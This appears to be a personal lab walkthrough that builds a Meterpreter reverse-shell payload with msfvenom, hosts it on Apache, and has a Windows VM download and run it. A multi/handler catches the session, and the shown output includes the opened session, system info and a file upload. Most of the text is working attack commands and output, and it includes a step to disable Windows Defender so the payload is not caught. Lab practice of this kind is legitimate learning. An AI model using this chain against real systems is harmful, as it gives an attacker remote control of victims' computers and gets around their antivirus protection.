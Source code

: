 ## shortcut on creating revershell with meterpreter/msf work in progress##

##launch terminal##
# run the following to escalate to root#
~$ sudo su

# run the following to create msfvenom reverse shell payload *.exe and place it into your webserver directory #
┌──(root💀kali )-[/g]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > /var/www/html/fun.exe  


# the wares have been created run the following to start the appache webserver #
┌──(root💀kali )-[/g]
└─# service apache2 start


##### Go to Windows machine ######

### Turn off Windows defender, allow the virus to come thru because it will be detected##

 # Launch browser in windows. download and run executable msfvenom created #
open http://kaliipaddress/fun.exe 

# windows target is ready for expoiting and post exploitation ##

# Launch metasploit #

┌──(root💀kali)-[/g]
└─# msfconsole  


## run the following in metasploit, throw in an options or help command here and there ##
> msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
> msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
> msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
> msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Sending stage (175174 bytes) to <windowsip>
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.3:2352 ) at 2022-02-28 00:55:06 -0500

# you have now spawned reverse shell with meterpreter # 

> meterpreter > sysinfo
Computer        : DESKTOP-WINDERS10
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

# open another terminal create a readme.txt to upload to windows computer in meterpreter #

┌──(root💀kali)-[/g]
└─# nano readme.txt  <-- paste in the msfbanner that launched at the beginning, (I used a cow and ninja)

# Go back to meterpreter #

> meterpreter > upload readme.txt
[*] uploading  : /g/readme.txt -> readme.txt
[*] Uploaded 1.39 KiB of 1.39 KiB (100.0%): /g/readme.txt -> readme.txt
[*] uploaded   : /g/readme.txt -> readme.txt
meterpreter > ls
> Listing: C:\Users\Gregster\Downloads

## vefify that the file is there list and then look at it in windows machine, change directories in meterpreter, stop apache2 call it a night tbc... #

┌──(root💀kali)-[/g]
└─# systemctl stop apache2  

┌──(root💀kali)-[/g]
└─# nmap -p80 localhost          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 01:40 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000086s latency).
Other addresses for localhost (not scanned): ::1

PORT   STATE  SERVICE
80/tcp closed http

# meterpreter
Metasploit/Meterpreter reverse shell from Kali to Windows VM
